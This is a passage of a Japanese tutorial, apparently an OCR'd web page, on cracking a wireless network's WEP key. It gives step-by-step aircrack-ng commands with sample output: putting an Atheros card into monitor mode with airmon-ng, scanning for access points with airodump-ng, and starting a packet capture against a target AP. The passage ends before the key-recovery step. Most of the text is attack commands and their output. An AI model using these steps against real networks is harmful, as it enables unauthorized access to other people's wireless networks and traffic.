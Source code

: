 
### 0x04 無線LANキー解読

　それでは皆さんお待ちかね、キーの解読に入りましょう。
　ターゲットAPのBSSIDは「00:11:22:33:44:55」、ESSIDは「niceboat」になりま
す。

●WEPキーの解読の場合

　eeeXubuntuを起動し、ターミナルを開いて「airmon\-ng」と打ち込んで現在装備
されているNICを確認します。おそらく以下のように表示されるハズです。

\-\-\-\-\-
\# airmon\-ng

Interface       Chipset         Driver

wifi0           Atheros         madwifi\-ng
ath0            Atheros         madwifi\-ng VAP (parent: wifi0)
\-\-\-\-\-

　続いて「airmon\-ng start wifi0」と打ち込んでNICのモード変更です。ath1が
新たに作られてモニターモードになると思います。このモニターモードというの
は、その名の通り、空気中に垂れ流されているパケットを無差別に受信するモー
ドのコトです。

\-\-\-\-\-
\# airmon\-ng start wifi0

Interface       Chipset         Driver

wifi0           Atheros         madwifi\-ng
ath0            Atheros         madwifi\-ng VAP (parent: wifi0)
ath1            Atheros         madwifi\-ng VAP (parent: wifi0) (monitor mode enabled)
\-\-\-\-\-

　次に「airodump\-ng ath1」と入力して周囲のAPを探します。

\-\-\-\-\-
 CH  ? ][ Elapsed: 30 s ][ 2007\-05\-24 11:36

 BSSID              PWR  Beacons    \#Data, \#/s  CH  MB  ENC  CIPHER AUTH ESSID

 00:11:22:33:44:55   61      342       36    0   1  54  WEP  WEP         niceboat
 66:77:88:99:00:11   32      159       73    0   9  54  WEP  WEP         nakanidaremoimasenyo

 BSSID              STATION            PWR  Lost  Packets  Probes

 00:11:22:33:44:55  AA:BB:CC:DD:EE:FF   55     0       63  niceboat
 (not associated)   GG:HH:II:JJ:KK:LL   20     0       15
\-\-\-\-\-

　ターゲットAPである00:11:22:33:44:55を無事発見することができました。ツー
ル側ではどれがお目当てのAPなのかわからず永遠に頑張り続けるため、[ctrl]+[c]
で終了させてあげてください。

　そして、今度はAPを探すためでなく、airodump\-ngをターゲットAPのパケットキ
ャプチャのために使っていきます。「airodump\-ng \-\-bssid <ターゲットAPのBSS
ID> \-\-c <ターゲットAPのチャンネル> \-w <キャプチャファイル名> <使用するNI
C>」で実行できますので、今回は「airodump\-ng \-\-bssid 00:11:22:33:44:55 \-\-c
 1 \-w /tmp/wep ath1」と入力することにします。キャプチャファイル名の末尾に
は「\-01.cap」や「\-02.cap」などが自動的にくっつきます。
